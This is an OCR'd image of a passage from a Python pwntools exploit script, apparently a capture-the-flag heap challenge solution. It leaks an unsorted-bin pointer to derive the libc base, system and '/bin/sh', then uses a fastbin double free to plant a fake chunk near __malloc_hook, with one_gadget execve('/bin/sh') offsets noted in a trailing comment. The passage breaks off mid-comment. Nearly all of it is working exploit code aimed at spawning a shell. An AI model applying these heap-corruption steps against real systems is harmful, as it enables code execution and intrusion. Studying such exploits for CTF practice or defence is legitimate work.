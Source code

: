 ```python
	p.recvuntil('Enter the sentence size:\n')
	p.sendline(str(len(word)))
	p.recvuntil('Enter the sentence:\n')
	p.send(word)


def exp():
	Index(' m '.rjust(0x88,'a'))
	search('m')
	p.recvuntil('Delete this sentence (y/n)?\n')
	p.sendline('y')
	search('\x00')
	p.recvuntil('Found 136: ')
	unsortbin_addr = u64(p.recv(6).ljust(8,'\x00'))
	log.info("unsortbin_addr:" + hex(unsortbin_addr))


	libc_base = unsortbin_addr - 0x3c4b78
	system = libc_base + libc.sym['system']
	str_binsh = libc_base + libc.search('/bin/sh').next()
	malloc_hook = libc_base + libc.sym['__malloc_hook']
	log.info('libc_base:'+hex(libc_base))
	log.info("system:"+hex(system))
	log.info("str_binsh:"+hex(str_binsh))
	log.info("malloc_hook:"+hex(malloc_hook))


	p.sendline('n')

	Index(' s '.rjust(0x68,'a'))
	Index(' k '.rjust(0x68,'a'))
	Index(' y '.rjust(0x68,'a'))

	search('s')
	p.recvuntil("Found")
	p.sendline('y')
	search('k')
	p.recvuntil("Found")
	p.sendline('y')
	search('y')
	p.recvuntil("Found")
	p.sendline('y')
	search('\x00')
	p.recvuntil("Found")
	p.sendline('n')
	p.recvuntil("Found")
	p.sendline('y')

	fakechunk_addr = malloc_hook - 0x23
	Index(p64(fakechunk_addr).ljust(0x68,'b'))
	Index(' s '.rjust(0x68,'b'))
	Index(' k '.rjust(0x68,'b'))


	'''
	0x45226 execve("/bin/sh", rsp+0x30, environ)
	constraints:
	  rax == NULL

	0x4527a execve("/bin/sh", rsp+0x30, environ)
	constraints:
	  [rsp+0x30] == NULL

```